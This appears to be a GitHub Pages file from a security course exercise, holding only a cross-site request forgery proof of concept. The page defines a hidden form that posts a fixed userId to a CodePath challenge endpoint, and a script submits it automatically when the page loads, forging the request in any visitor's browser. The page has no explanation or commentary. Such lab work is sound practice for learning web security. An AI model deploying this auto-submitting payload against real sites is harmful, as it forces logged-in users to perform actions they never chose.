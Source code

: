 # JLPlummer79.github.io


<form name="csrfform" action="http://security.codepath.com/user/csrfchallengtwo/plusplus/" method="POST">
  <input type="hidden" name="userId" value="aeb865d01bf2879d30580dc941c066a504be46e4"/>
  <input type="submit"/>
</form>

<script> document.csrfform.submit(); </script>
